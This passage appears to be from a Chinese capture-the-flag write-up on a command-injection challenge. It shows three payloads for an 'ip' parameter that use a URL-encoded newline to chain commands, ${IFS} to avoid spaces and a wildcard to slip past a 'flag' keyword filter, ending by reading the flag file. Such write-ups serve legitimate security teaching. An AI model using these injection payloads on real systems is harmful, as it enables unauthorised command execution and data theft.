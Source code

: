 首先，构造`ip=127.0.0.1%0als`绕过分割符过滤<figure class="wp-block-image size-large">

<img loading="lazy" width="885" height="497" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/07/图片-25.png" alt="" class="wp-image-1642" /> </figure> 

构造`ip=127.0.0.1%0acd${IFS}fla*%0als`利用${IFS}绕过空格，*绕过flag，发现flag文件<figure class="wp-block-image size-large">

<img loading="lazy" width="520" height="113" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/07/图片-26.png" alt="" class="wp-image-1643" /> </figure> 

最后构造`ip=127.0.0.1%0acd${IFS}fla%0amore${IFS}fla*`，得到flag。<figure class="wp-block-image size-large">

<img loading="lazy" width="524" height="110" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/07/图片-27.png" alt="" class="wp-image-1644" /> </figure>

 [1]: https://img-blog.csdnimg.cn/20190212171710961.png
